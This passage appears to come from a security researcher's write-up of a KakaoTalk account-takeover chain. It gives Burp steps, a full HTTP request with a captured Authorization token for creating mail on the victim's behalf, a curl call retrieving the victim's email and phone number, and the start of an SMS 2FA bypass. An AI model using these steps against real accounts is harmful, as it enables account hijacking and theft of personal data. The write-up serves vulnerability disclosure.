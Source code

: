 ```
```
4. Click on `Send` and confirm the target's details
5. Right-click in the request window, select `Request in browser > In original session` and copy the URL into Burp's browser.

If necessary, we could also create a new Kakao Mail account on the user's behalf. Just repeat the same steps with Burp using the following HTTP request (adapt the `Authorization` header):

```
GET /kakao_mail/main?continue=https://talk.mail.kakao.com HTTP/1.1
Host: auth.kakao.com
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Linux; Android 11; sdk_gphone_arm64 Build/RSR1.210722.013.A6; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/91.0.4472.114 Mobile Safari/537.36;KAKAOTALK 2610430
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Authorization: 64f03846070b4a9ea8d8798ce14220ce00000017017793161400011gzCIqV_7kN-deea3b5dc9cddb9d8345d95438207fc0981c2de80188082d9f6a8849db8ea92e
Http_a: android/10.4.3/en
X-Requested-With: com.kakao.talk
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close
```

When creating a new email address tick the box `Set As Primary Email`.

## KakaoTalk Password Reset with Burp

With access to the victim's Kakao Mail account, a password reset was the next logical step. The only additional information required were the victim's email address, nickname and phone number which we got with the same curl query that we used above:

```bash
curl -i -s -k -X $'GET' \
    -H $'Host: katalk.kakao.com' -H $'Accept-Language: en' -H $'User-Agent: KT/10.4.3 An/11 en' -H $'Authorization: 64f03846070b4a9ea8d8798ce14220ce00000017017793161400011gzCIqV_7kN-deea3b5dc9cddb9d8345d95438207fc0981c2de80188082d9f6a8849db8ea92e' -H $'A: android/9.5.0/en' -H $'C: a327a1ad-b417-499a-abf7-48da89076e7c' -H $'Accept-Encoding: json, deflate, br' -H $'Connection: close' \
    $'https://katalk.kakao.com/android/account/more_settings.json?os_version=30&model=SDK_GPHONE_ARM64&since=1693786891&lang=en&vc=2610380&email=2&adid=&adid_status=-1'
```

Changing the password via `https://accounts.kakao.com` turned out to be a bit complicated as we had to bypass 2FA via SMS. However, it was as simple as intercepting and modifying a couple of requests with Burp. This is how you can do it:
